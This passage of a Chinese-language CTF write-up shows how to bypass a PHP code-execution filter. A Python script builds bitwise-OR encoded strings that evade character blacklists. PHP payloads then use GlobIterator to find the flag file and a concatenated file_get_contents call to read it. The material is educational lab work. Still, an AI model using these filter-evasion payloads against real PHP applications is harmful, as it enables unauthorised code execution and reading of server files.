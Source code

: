 ```php
}
```

位运算 `& |` 没有被过滤, 这里以 `|` 为例, 利用 GlobIterator 查找 flag

```python
import re

preg = '\*'

def convertToURL(s):
    if s < 16:
        return '%0' + str(hex(s).replace('0x', ''))
    else:
        return '%' + str(hex(s).replace('0x', ''))

def generateDicts():
    dicts = {}
    for i in range(256):
        for j in range(256):
            if not re.match(preg, chr(i), re.I) and not re.match(preg, chr(j), re.I):
                k = i | j
                if k in range(32, 127):
                    if not k in dicts.keys():
                        dicts[chr(k)] = [convertToURL(i), convertToURL(j)]
    return dicts

def generatePayload(dicts, payload):
    s1 = ''
    s2 = ''
    for s in payload:
        s1 += dicts[s][0]
        s2 += dicts[s][1]
    return f'("{s1}"|"{s2}")'

dicts = generateDicts()
a = generatePayload(dicts, '/f*')
print(a)
```

payload

```php
<?php echo new GlobIterator('/f('|'/f"');
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211271954406.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211271954423.png)

然后用 `file_get_contents()` 读取 flag

```php
<?php echo ('fil'.'e_ge'.'t_cont'.'ents')('/fl1111111111ag');
```
